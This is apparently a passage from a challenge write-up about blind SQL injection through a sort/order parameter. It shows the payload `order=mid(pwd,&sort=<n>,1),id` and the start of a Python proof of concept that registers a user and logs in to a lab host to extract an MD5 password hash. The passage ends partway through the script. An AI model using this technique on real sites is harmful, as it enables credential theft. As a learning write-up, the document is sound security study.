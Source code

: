 Doing this for every character will extract the password hash from the database.

# Exploit
Running the exploit, it will try to register an user "nuit" with initial password "test". After this, it checks the sorting of each character in `md5("test")` with the payload `order=mid(pwd,&sort=<n>,1),id`.
After it has all informations it can extract from the single md5 hash, it uses the hash as new password and uses `md5(md5("test"))` as new hash. That's an easy way for an endless supply of hashes.
(See code at the end of the article)

![Exploit in GIF](/img/ezgif.com-gif-maker.gif)

Needless to say: even with the sorting by id (which makes it more reliable and faster) we crush the below 22 characters challenge with 17 chars.
Without it would be 12 :)

# Conclusion
I have never ever extracted data by sorting the output. But it is a pretty good and fast method with short injections.

If there is a better method extracting the hash, let me know on twitter.

so long

# PoC Code
*Shame on me...the code is pretty ugly*
```python
import sys
import requests
import hashlib
from bs4 import BeautifulSoup

start='test'
t = {}
md5=hashlib.md5(start.encode('utf-8')).hexdigest()

s = requests.Session()
print("[+] Registering user 'nuit' with password '%s'" % (start))
r = s.post('http://33.33.33.10/index.php?action=register',data={
    'username':'nuit',
    'password':start,
    'email': 'blubb@blaa.com',
    'hp': 'http://1',
    'save':'Create'
})

print("[+] Querying user 'nuit' to get ID for later sorting")
r = requests.get('http://33.33.33.10/index.php?action=list')
soup = BeautifulSoup(r.text, 'html.parser')
table = soup.find('div',attrs={'id':'inhalt'})
for tr in table.find_all('tr'):
    names = tr.find_all('th')
    if(names[1].text == 'nuit'):
        id = names[0].text
        break

print("[+] Received ID: '%s'" % (id))
print("[+] Login to obtain session")
r = s.post('http://33.33.33.10/index.php?action=login',data={
    'username':'nuit',
    'password':start,
```